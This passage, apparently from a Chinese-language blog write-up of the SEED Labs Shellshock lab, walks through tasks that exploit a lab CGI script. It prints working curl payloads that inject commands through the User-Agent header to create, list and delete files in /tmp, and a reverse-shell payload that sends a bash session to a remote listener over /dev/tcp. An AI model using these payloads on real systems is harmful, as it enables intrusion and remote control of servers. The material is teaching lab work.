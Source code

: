 - 任务3.C：让服务器在/tmp文件夹中创建一个文件。您需要进入容器以查看文件是否被创建，或者使用另一个shellshoc攻击来列出/tmp文件夹。

```bash
curl -A "() { : ;}; echo ; /bin/touch /tmp/skpriminfile " http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

curl -A "() { :;}; echo Content_type: text/plain; echo; /bin/ls -l /tmp" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![image-20220614213358586](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623220112316-1803489037.png)

- 任务3.D: 让服务器删除您刚刚在/tmp文件夹中创建的文件。

```bash
curl -A "() { : ;}; echo ; /bin/rm /tmp/skpriminfile " http://www.seedlab-shellshock.com/cgi-bin/vul.cgi

curl -A "() { :;}; echo Content_type: text/plain; echo; /bin/ls -l /tmp" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![image-20220614213458372](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623220112551-2077928534.png)

### 问题

 请回答以下问题：

问题1：您能否从服务器上窃取影子文件的内容？为什么或为什么不呢？在任务3.B中获得的信息  应该会给你一个线索。

问题2：HTTP GET请求通常会在URL中附加数据，然后是在？记号这可能是我们可以用来发动攻击的  另一种方法。在下面的例子中，我们在URL中附加了一些数据，我们发现这些数据被用于设置以下环境变量：

```bash
$ curl "http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?AAAAA"
...
UERY_STRING=AAAAA
...
```

我们能用这种方法来发动贝壳冲击攻击吗？请对您进行实验，并根据实验结果得出结论。



## 任务4：通过ShellShock攻击获得反向外壳

ShellShock漏洞允许攻击在目标机器上运行任意命令。在真正的攻击中，攻击者通常会选择运行一个shell命令，而不是硬编码攻击中的命令，这样只要shell程序还存在，他们就可以使用这个shell来运  行其他命令。为了实现这一目标，攻击者需要运行一个反向壳层。

反向壳是在机器上启动的壳过程，它的输入和输出由远程计算机控制。基本上，shell会在受害者的机器上运行，但它会从攻击者的机器上接收输入，并在攻击者的机器上打印其输出。反向壳牌为攻击者提供了一种方便的方式来在被破坏的机器上运行命令。关于如何创建一个反向外壳的详细说明可以在种子署的书中找到。我们还在第4节中总结了这个解释。在这个任务中，你需要演示如何使用贝壳  冲击攻击从受害者那里获得一个反向贝壳。

构建指令的部分请参考：https://www.cnblogs.com/skprimin/p/16058174.html#_label3_1_0_1

```bash
curl -A "() { echo 1; };echo;/bin/bash -i > /dev/tcp/192.168.136.143/9090 0>&1 2>&1" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```
